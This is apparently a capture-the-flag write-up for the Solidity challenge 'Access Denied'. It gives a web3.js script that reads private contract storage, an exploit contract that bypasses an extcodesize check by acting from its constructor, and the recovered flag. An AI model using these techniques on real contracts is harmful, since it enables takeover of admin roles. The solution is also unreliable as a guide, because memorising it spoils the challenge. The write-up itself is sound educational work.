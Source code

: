 # Access Denied

## Challenge

We get contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract access_denied {
    string private data; 
    address admin;

    constructor(string memory _data) {
        data = _data;
        admin = msg.sender;
    }

    function isContract(address addr) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(addr)
        }
        return size > 0;
    }

    modifier noEOA {
        require (msg.sender != tx.origin, "No-EOA allowed!");
        _;
    }

    modifier noContract {
        require (!isContract(msg.sender), "No-contract allowed either!");
        _;
    }

    function changeAdmin(address _addr) external noEOA noContract {
        _changeAdmin(_addr);
    }

    function _changeAdmin(address _addr) private {
        require(msg.sender==_addr);
        admin = _addr ;

    }
    
    function getflag() public view returns (string memory) {
        require(msg.sender == admin, "You are not admin yet!");
        return(data);
    }
}
```

Our goal is to retrieve the flag.

## Solution

There are 2 ways to solve this challenge:

1. The easy way (probably not intended)

You can just read out the private flag variable using web3.js

```
// Description:
// A short script that lets you read out the storage of a smart contract

// How to use:
// 1. Change the RPC URL to the one of the network you're using
// 2. Replace the first parameter of getStorageAt with the address of the contract you're targeting
// 3. Change the second parameter to the storage slot you want to read out.

// Import the web3.js library
const Web3 = require('web3');

// Set up the web3 provider using the RPC URL and chain ID of the custom blockchain
const web3 = new Web3(new Web3.providers.HttpProvider('https://rpc2.sepolia.org	'));

// Get the storage value at a specific address and position
async function getStorageAt(address, position) {
  try {
    const storageValue = await web3.eth.getStorageAt(address, position);
    console.log(`Storage value at address ${address} and position ${position}: ${storageValue}`);
  } catch (error) {
    console.error(error);
  }
}

// Call the getStorageAt function with a specific address and position
getStorageAt('0x65E7Fe0c5112ae242732786eEd8dCc31e27131d7', 0);
```

running this yields us the flag "flag{7h3_Prof3ss0r}"

2. The "hard way"

The contract checks if we are a contract and if we have a codesize of 0. We can just circumvent this by doing everythign in the constructor. I also set the flag to private so other people can't directly call my contract and get a flag.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Chal.sol";

contract exploit {
    address owner;
    string private flag;

    constructor(address target)
    {
        owner = msg.sender;
        access_denied(target).changeAdmin(address(this));
        flag = access_denied(target).getflag();
    }


    function getFlag() public view returns(string memory)
    {
        require (msg.sender == owner);
        return flag;
    }
}
```

Then i just ran this with the address and got the flag.

